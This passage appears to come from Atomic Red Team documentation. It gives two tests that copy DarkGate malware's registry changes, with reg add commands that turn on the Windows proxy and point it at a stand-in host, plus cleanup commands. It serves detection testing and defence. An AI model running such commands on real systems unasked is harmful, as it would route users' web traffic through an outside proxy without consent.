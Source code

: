 ## Atomic Test #67 - Enable Proxy Settings
A modification registry to enable proxy settings. This technique was seen in DarkGate malware as part of its installation.

**Supported Platforms:** Windows


**auto_generated_guid:** eb0ba433-63e5-4a8c-a9f0-27c4192e1336






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 0 /f
```





<br/>
<br/>

## Atomic Test #68 - Set-Up Proxy Server
A modification registry to setup proxy server. This technique was seen in DarkGate malware as part of its installation.

**Supported Platforms:** Windows


**auto_generated_guid:** d88a3d3b-d016-4939-a745-03638aafd21b






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /t REG_SZ /d "proxy.atomic-test.com:8080" /f
```

#### Cleanup Commands:
```cmd
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /f
```

